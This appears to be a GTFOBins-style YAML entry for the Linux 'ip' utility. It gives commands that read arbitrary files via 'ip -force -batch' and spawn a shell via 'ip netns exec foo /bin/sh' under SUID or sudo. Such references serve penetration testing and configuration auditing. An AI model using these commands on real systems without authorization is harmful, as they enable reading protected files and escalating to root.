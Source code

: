 ```yaml
---
description: |
  The read file content is corrupted by error prints.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        ip -force -batch "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./ip -force -batch "$LFILE"
    - description: This only works for Linux with CONFIG_NET_NS=y.
      code: |
        ./ip netns add foo
        ./ip netns exec foo /bin/sh
        ./ip netns delete foo
  sudo:
    - code: |
        LFILE=file_to_read
        sudo ip -force -batch "$LFILE"
    - description: This only works for Linux with CONFIG_NET_NS=y.
      code: |
        sudo ip netns add foo
        sudo ip netns exec foo /bin/sh
        sudo ip netns delete foo
---
```


